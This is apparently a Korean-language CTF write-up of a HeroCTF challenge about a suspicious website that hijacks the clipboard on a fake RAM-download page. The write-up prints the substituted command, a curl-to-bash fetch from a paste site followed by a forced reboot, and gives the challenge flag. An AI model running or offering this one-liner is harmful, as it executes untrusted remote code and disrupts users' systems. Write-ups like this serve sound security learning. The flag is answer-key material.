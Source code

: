 ## Description
Your system administrator calls you, all worried, he's just observed some strange behavior: the server he was connected on has suddenly shut down. After some questioning, you realize that he's been browsing on a suspicious wesite. You decide to inspect the website yourself. Will you be able to find the root of your problems ? Once you've found it, base64 the malicious charge.
> URL: [**http://misc.heroctf.fr:8085**](http://misc.heroctf.fr:8085/)
- Format : HERO{base64(malicious charge)} (no case-sensitive)
- Example : HERO{YmFzZTY0IDQgbGlmZS4=}

## Solution
- 사이트 구경해보면서 이것 저것 눌러보고 있었는데, 처음에는 Nestflix가 문제일 거라고 생각함
- 근데 암만 누르고 검색해봐도 안돼서 램 추가로 설치할 수 있는 페이지 살펴보기로 함

![alt text](image.png)


- 너무나 수상쩍어보임
- 그래서 한번 해볼까 싶어서 복붙하는데 이상한 명령어가 붙어넣어짐
    
    ```rust
    curl -s https://ghostbin.site/6y65l/raw | bash && sleep 2 && reboot -f
    ```
    
    - 누가봐도 reboot 하는 명령;
- 혹시나 해서 이걸 base64 시켜서 인증해봤는데 정답이었다..

## flag

`Hero{Y3VybCAtcyBodHRwczovL2dob3N0YmluLnNpdGUvNnk2NWwvcmF3IHwgYmFzaCAmJiBzbGVlcCAyICYmIHJlYm9vdCAtZg==}`